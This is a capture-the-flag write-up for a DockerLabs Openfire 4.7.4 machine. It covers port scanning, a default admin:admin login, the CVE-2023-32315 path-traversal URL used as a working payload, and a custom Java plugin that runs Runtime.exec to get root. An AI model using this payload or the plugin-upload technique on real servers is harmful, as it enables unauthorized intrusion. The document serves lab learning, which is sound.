





# Chocolate Fire

## Information

| Field | Value |
|---|---|
| Platform | DockerLabs |
| Target IP | 172.17.0.2 |
| Date | 02/09/2026 |
| Difficulty | Medium |
| OS | Linux |
| Status | Completed |

---

## Reconnaissance

The first step was a full TCP port scan with service and default-script enumeration.

```bash
nmap -p- -sC -sV --min-rate 1000 172.17.0.2
```

### Open Ports

| Port | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH 8.4p1 |
| 5222 | XMPP | Openfire |
| 5223 | XMPP/SSL | Openfire |
| 5262 | XMPP | Openfire |
| 5263 | XMPP/SSL | Openfire |
| 5269 | XMPP Server | Openfire |
| 5270 | XMPP | Openfire |
| 5275 | XMPP | Openfire |
| 5276 | XMPP/SSL | Openfire |
| 7070 | HTTP | Openfire HTTP Binding Service |
| 7777 | SOCKS5 | No authentication, connection denied by ruleset |
| 9090 | HTTP | Openfire Admin Console |

The initial Nmap fingerprint on port 9090 was not completely accurate, so the HTTP services were enumerated manually.



---

## Web Enumeration

### Port 7070

```bash
whatweb http://172.17.0.2:7070
```

The service was identified as:

```text
Openfire HTTP Binding Service
```

### Port 9090

```bash
whatweb http://172.17.0.2:9090
```

This identified an **Openfire Admin Console**.

## Openfire Administration

The login page accepted:

```text
Username: admin
Password: admin
```

This provided access to the Openfire Administration Console.

Rather than immediately looking for an exploit, I first explored what functionality was available and what information could potentially lead to operating-system access.

### User Enumeration

The user management section revealed several Openfire accounts:

- `5laahb`
- `admin`
- `chocolatitochingon`
- `mora`

I also tested whether Openfire credentials could be reused against SSH.

The SSH host key had changed, so the old entry was removed with:

```bash
ssh-keygen -f '/home/mora/.ssh/known_hosts' -R '172.17.0.2'
```

The discovered Openfire credentials did not provide SSH access.

This confirmed an important distinction:

> Openfire application accounts are not necessarily Linux system accounts.



---

### Certificate Stores

The Certificate Stores section exposed the following paths:

```text
/mnt/openfire/resources/security/keystore
/mnt/openfire/resources/security/truststore
```

The identity store password was visible in the page as:

```text
changeit
```

The value was revealed by inspecting the HTML and changing the password input from `type="password"` to `type="text"`.

This is a client-side presentation change: the browser was not decrypting the value. The value was already present in the page.

The password itself was not immediately useful for obtaining operating-system access, but the exposed filesystem paths provided additional information about the Openfire installation.



---

### Plugin Enumeration

The Plugins section revealed an installed Search plugin:

```text
Search Plugin
Version: 1.7.3
Author: Ryan Graham
Available version: 1.7.4
```

More importantly, the administration console provided functionality to upload plugins as `.jar` files.

This was an interesting attack surface because Openfire plugins are Java code executed by the server.



---

### Database Configuration

The Database Properties section revealed that the installation was using:

```text
Database: HSQL Database Engine 2.4.1
JDBC Driver: HSQLDB
JDBC Version: 2.4.1
Database User: SA
```

The connection URL was:

```text
jdbc:hsqldb:/mnt/openfire/embedded-db/openfire
```

The filesystem path was particularly interesting because it confirmed the location of the embedded Openfire database.

---

# Vulnerability Research

At this point I started researching the Openfire version and its known vulnerabilities.

The installed version was:

```text
Openfire 4.7.4
```

One relevant vulnerability was:

```text
CVE-2023-32315
```

The vulnerability affects Openfire versions:

```text
>= 4.7.0 and < 4.7.5
```

Openfire 4.7.4 therefore falls within the affected range.

CVE-2023-32315 is an authentication bypass/path traversal vulnerability affecting the Openfire Administration Console.

It is important to note that this vulnerability does **not inherently provide operating-system command execution**. It can expose unauthenticated access to resources that should require authentication.

---

## CVE-2023-32315 Validation

The vulnerability can be tested using the following path:

```text
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

Therefore:

```text
http://172.17.0.2:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

The interesting part is:

```text
%u002e
```

which represents:

```text
.
```

Therefore:

```text
%u002e%u002e
```

represents:

```text
..
```

The path traversal is handled by the application's URL processing. `setup-s` does not need to be a physically discoverable directory on the server.

I tested the URL without an authenticated Openfire session.

The server returned Openfire log information instead of redirecting to the login page.

The logs contained references to the running Openfire 4.7.4 installation.

This confirmed that the target was affected by CVE-2023-32315.

---

# Plugin Upload

The Administration Console allows administrators to upload custom Openfire plugins as Java `.jar` files.

Instead of using a pre-existing exploit, I decided to build a minimal custom plugin to verify exactly what capabilities the plugin mechanism provided.

The project structure was:

```text
chocolate-fire-plugin/
├── pom.xml
├── plugin.xml
└── src/
    └── java/
        └── com/
            └── mora/
                └── TestPlugin.java
```

The project was built using:

```text
OpenJDK 25.0.4
Apache Maven 3.9.12
```

The Openfire 4.7.4 Maven repository had to be configured because the Openfire parent POM was not available from Maven Central.

The build produced an Openfire plugin assembly JAR.

The resulting archive contained:

```text
META-INF/
META-INF/MANIFEST.MF
lib/
lib/mora-test-1.0.0.jar
plugin.xml
```

The internal JAR contained:

```text
com/mora/TestPlugin.class
```

---

# Custom Plugin Installation

The generated plugin was uploaded through the Openfire Administration Console.

Openfire accepted the plugin and loaded it successfully.

The initial test was deliberately benign: the plugin simply wrote a message to the Openfire logs when initialized.

The server logs confirmed:

```text

[MORA-TEST] Plugin cargado correctamente

```
---

# OS Command Execution

Once plugin execution had been confirmed, I modified the test plugin to execute the following operating-system command:

```text
id
```

The relevant Java functionality was:

```java
Process process = Runtime.getRuntime().exec("id");
```

The command output was then written to the Openfire logs.

After uploading and loading the modified plugin, the logs showed:

```text
[MORA-TEST] OS: uid=0(root) gid=0(root) groups=0(root)
```

This confirmed that code executed through the Openfire plugin mechanism was running with root privileges.



No reverse shell was required to prove the impact. Successful execution of `id` and the resulting `uid=0(root)` output were sufficient to demonstrate operating-system command execution as root.

---

# Attack Chain

The investigation produced several independent findings that ultimately allowed the impact to be demonstrated.

```text
Network Reconnaissance
        ↓
Openfire Services Identified
        ↓
Openfire Admin Console on 9090
        ↓
admin:admin
        ↓
Authenticated Administration Console
        ↓
Plugin Upload Functionality
        ↓
Custom Java Plugin
        ↓
Runtime.exec("id")
        ↓
uid=0(root)
```

Separately, the Openfire version was found to be vulnerable to:

```text
CVE-2023-32315
```

which was independently validated through the unauthenticated path traversal/authentication bypass.

The CVE validation and the root command-execution proof should therefore be considered separate findings rather than a single unauthenticated CVE-to-RCE chain.

---

# Lessons Learned

### 1. Do not rely exclusively on automated fingerprinting

Nmap initially produced an inaccurate identification for port 9090.

Manual HTTP enumeration with WhatWeb and curl allowed the service to be correctly identified as the Openfire Administration Console.

### 2. Application credentials and system credentials are different

The Openfire accounts discovered through the administration interface did not provide SSH access.

Credentials should always be tested against the specific authentication boundary they belong to.

### 3. Explore functionality before exploiting it

The plugin upload functionality was discovered through normal administration-console enumeration.

Understanding what an application allows an authenticated user to do can be just as important as searching for CVEs.

### 4. Vulnerability validation is different from exploitation

CVE-2023-32315 was validated independently.

The root command-execution proof was obtained through legitimate administrative plugin functionality using the discovered administrative credentials.

Keeping these two paths separate makes the attack analysis more accurate.

### 5. A minimal proof of impact is often enough

Executing:

```text
id
```

and obtaining:

```text
uid=0(root)
```

was enough to prove arbitrary operating-system command execution with root privileges.

A reverse shell was therefore unnecessary for demonstrating the vulnerability's impact.

---

# Conclusion

Chocolate Fire was a useful exercise in moving beyond automated enumeration and investigating an application from the perspective of its available functionality.

The most important part of the machine was not simply obtaining root, but understanding the path that led there:

```text
Reconnaissance
→ Service Identification
→ Application Enumeration
→ Credential Discovery
→ Functionality Analysis
→ Vulnerability Research
→ Vulnerability Validation
→ Custom Code Execution
→ Root
```

The machine also highlighted the importance of distinguishing between:

- authentication bypass
- application-level administrative access
- code execution
- operating-system command execution
- privilege level

Rather than assuming that a CVE automatically provides a complete exploitation chain, each capability was validated independently.